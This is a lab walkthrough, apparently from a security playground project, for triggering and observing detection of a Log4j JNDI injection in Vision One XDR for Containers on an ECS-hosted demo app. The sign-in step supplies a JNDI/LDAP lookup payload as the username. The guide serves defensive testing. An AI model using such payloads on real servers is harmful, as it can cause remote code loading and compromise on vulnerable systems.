 # Scenario: Detect JNDI Injection in HTTP Request (Log4j)

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Navigate to <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/todolist>

Click `[Sign in]`

- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}`
- Password: `does not matter`

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-log4j-01.png "Poc")

> ***Note:*** The currently deployed app is not vulnerable for Log4j, the technique from above still triggers the exploitation attempt.
